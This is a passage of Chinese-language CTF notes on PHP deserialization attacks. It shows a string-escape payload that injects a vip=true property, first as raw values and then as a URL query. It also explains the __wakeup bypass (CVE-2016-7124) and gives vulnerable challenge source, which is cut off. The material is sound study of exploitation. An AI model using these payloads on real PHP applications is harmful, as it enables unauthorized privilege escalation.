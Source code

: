 ### payload 构造

```php
这题跟上一题一样，为了方便计算还是使用php进行替换

未被替换的序列化字符串：
O:4:"test":3:{s:4:"user";s:54:"phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:38:";s:4:"pass";s:4:"pass";s:3:"vip";b:1;}";s:3:"vip";b:0;}

替换后的序列化字符串：
O:4:"test":3:{s:4:"user";s:54:"hkhkhkhkhkhkhkhkhkhkhkhkhkhkhkhkhkhk";s:4:"pass";s:38:";s:4:"pass";s:4:"pass";s:3:"vip";b:1;}";s:3:"vip";b:0;}

要逃逸字符串：";s:4:"pass";s:38: = 18，所以使用18个php进行逃逸。注意属性数量一共有3个。所以 pass 需要写入两个属性

payload：
	user = phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp
	pass = ;s:4:"pass";s:4:"pass";s:3:"vip";b:1;}
	
URL payload:
	?user=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp&pass=;s:4:"pass";s:4:"pass";s:3:"vip";b:1;}
```

## 13.15 `__wakeup`魔术方法绕过

> 反序列化漏洞：CVE-2016-7124
>
> PHP5 < 5.6.25
>
> PHP7 < 7.0.10

### 漏洞产生原因

在调用`unserilize()`方法前则先调用`__wakeup`方法，但是序列化字符中表示对象**属性个数**的值大于真是的属性个数时，会跳过`__wakeup()`的执行



### 例题源码

```php
<?php
include 'flag.php';


error_reporting(0);


class Name
{
    private $username = 'admin';
    private $password = 100;

    function __wakeup()
    {
        $this->username = 'guest';
    }

    function __destruct()
    {
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;
            echo "</br>";
```